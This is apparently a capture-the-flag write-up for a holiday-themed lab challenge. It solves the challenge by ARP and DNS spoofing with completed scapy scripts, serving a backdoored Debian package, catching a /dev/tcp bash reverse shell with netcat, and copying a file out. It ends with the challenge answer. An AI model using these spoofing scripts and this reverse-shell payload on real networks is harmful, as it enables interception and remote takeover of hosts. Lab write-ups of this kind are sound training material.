






ARP Shenanigans#
Objective#
Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using
ARP. Retrieve the document at/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?
Difficulty: 4/5
Alabaster Snowball's dialog:#
Those skills might be useful to you later on!
I've been trying those skills out myself on this other terminal.
I'm pretty sure I can use tcpdump to sniff some packets.
Then I'm going to try a machine-in-the-middle attack.
Next, I'll spoof aDNSresponse to point the host to my terminal.
Then I want to respond to itsHTTPrequest with something I'll cook up.
I'm almost there, but I can't quite get it. I could use some help!Oh, I see the Scapy Present Packet Prepper has already been completed!
Now you can help me get access to this machine.
It seems that some interloper here at the North Pole has taken control of the host.
We need to regain access to some important documents associated with Kringle Castle.
Maybe we should try a machine-in-the-middle attack?
That could give us access to manipulateDNSresponses.
But we'll still need to cook up something to change theHTTPresponse.
I'm sure glad you're here Santa.
Hints#
Jack Frost must have gotten malware on our host at
10.6.6.35because we can no longer access it. Try sniffing theeth0interface usingtcpdump -nni eth0to see if you can view any traffic from that host.
The host is performing anARPrequest. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in/home/guest/scripts.
Hmmm, looks like the host does aDNSrequest after you successfully do anARPspoof. Let's return aDNSresponse resolving the request to ourIP.
The malware on the host does anHTTPrequest for a.debpackage. Maybe we can get command line access by sending it a command in a customized .deb file
Solution#
Note
Complete the terminal Scapy Prepper for hints on how to solve this objective.
From the hints, we find out a host on the Castle's network has been compromised. We also learn that there will be a multi-step process to gain access to the host:
- Respond to the ARP request from the compromised host.
- Respond to the DNS request from the compromised host.
- Provide a package file to the compromised host with a backdoor script.
- Gain shell access to the host and retrieve the document.
ARP response#
The compromised host is requesting the MAC address of 10.6.6.53. We have a template scapy
script in scripts/arp_resp.py, but some of the fields in the response need to be filled out:
ether_resp = Ether(dst="SOMEMACHERE", type=0x806, src="SOMEMACHERE")
arp_response = ARP(pdst="SOMEMACHERE")
arp_response.op = 99999
arp_response.plen = 99999
arp_response.hwlen = 99999
arp_response.ptype = 99999
arp_response.hwtype = 99999
arp_response.hwsrc = "SOMEVALUEHERE"
arp_response.psrc = "SOMEVALUEHERE"
arp_response.hwdst = "SOMEVALUEHERE"
arp_response.pdst = "SOMEVALUEHERE"
We need to respond to the ARP request and tell the compromised host to direct any subsequent traffic to us. Using this guide to ARP packets, we can fill in the appropriate sections in the response packets:
ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)
arp_response = ARP(pdst=packet[ARP].psrc)
arp_response.op = "is-at"
arp_response.plen = packet[ARP].plen
arp_response.hwlen = packet[ARP].hwlen
arp_response.ptype = packet[ARP].ptype
arp_response.hwtype = packet[ARP].hwtype
arp_response.hwsrc = macaddr
arp_response.psrc = packet[ARP].pdst
arp_response.hwdst = packet[Ether].src
arp_response.pdst = packet[ARP].psrc
And we were successful:

We can see the next piece of data we need to spoof: a DNS lookup for ftp.osuosl.org. There's
a sample script in scripts/dns_resp.py, with some sections we need to change:
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.1.10"
def handle_dns_request(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
eth = Ether(src="00:00:00:00:00:00", dst="00:00:00:00:00:00") # need to replace mac addresses
ip = IP(dst="0.0.0.0", src="0.0.0.0") # need to replace IP addresses
udp = UDP(dport=99999, sport=99999) # need to replace ports
dns = DNS(
# MISSING DNS RESPONSE LAYER VALUES
)
DNS packets are complex to create, and can be tricky to get right. A couple of helpful guides are at here and here. With much trial and error, we can build a response packet with the following code:
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"
def handle_dns_request(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
eth = Ether(src=packet[Ether].dst, dst=packet[Ether].src)
ip = IP(dst=packet[IP].src, src=packet[IP].dst)
udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)
dns = DNS(
id=packet[DNS].id,
qr=1, ra=1, rd=1, opcode="QUERY", rcode="ok", qdcount=1, ancount=1, qd=packet[DNS].qd,
an=DNSRR(rrname=packet[DNS].qd.qname, type='A', rclass='IN', ttl=82159, rdata=ipaddr),
)
A small shell script helps manage starting the spoof scripts. The DNS spoof script is started first, to be ready when the ARP spoof fires:
#!/bin/sh
python3 dns_resp.py &
python3 arp_resp.py &
We can see the ARP request & response, then the DNS query and response:

Now we see a new request from the compromised host: an attempted HTTP request, which
failed as there was no web server listening on port 80:

We can start one with python3 -m http.server 80, run our shell script again, and
look at the web server output to see what the compromised host is requesting:

The compromised host is requesting a Debian package
/pub/jfrost/backdoor/suriv_amd64.deb. We can create a package with a backdoor in it,
serve it up with the correct path, and receive a remote shell when the compromised host
installs the package. There are a number of Debian packages in the debs directory
in the terminal, but I found it easier to use a tool to create an empty package
with just a reverse shell backdoor instead of modifying one of the provided ones.
The tool I used is Derbie. After cloning
the GitHub repository on your local machine and installing the dependencies, create
a smiple reverse shell payload script:
#!/bin/bash
0<&196;exec 196<>/dev/tcp/10.6.0.3/10444; sh <&196 >&196 2>&196
Replace 10.6.0.3 with the IP address of the host in your terminal.
Next, generate the package with python3 Derbie.py suriv payload.sh:

We now need to get the package from our local machine into the ARP Spoof
terminal. As the terminal can't reach outside it's network, the best method
of transferring the package is copy/paste. On the local machine run base64
debs/suriv_43_all.deb, copy the base64-encoded text, and in the terminal run base64
-d > suriv_amd64.deb, then paste the text.
For the HTTP GET request to work, we need to make sure we have the correct path set up.
Run mkdir -p pub/jfrost/backdoor/, move the package file to that directory, then re-start
the Python HTTP server. Finally, add a listener to the shell script:
#!/bin/sh
python3 dns_resp.py &
python3 arp_resp.py &
nc -vnlp 10444
Run the script, and wait for the reverse shell from the compromised host. Once we see
the connect to ... message from nc, we know the reverse shell was successful:

We can use the same copy/paste method to transfer the /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt file out of the terminal and to our local machine:

And do the reverse on our local machine: base64 -d | gunzip >
NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Reading the relatively mundane meeting
minutes from the North Pole Land Use board, we see that Tanta Kringle recused
herself from voting on the Kringle Castle expansion plans.
Answer#
Tanta Kringle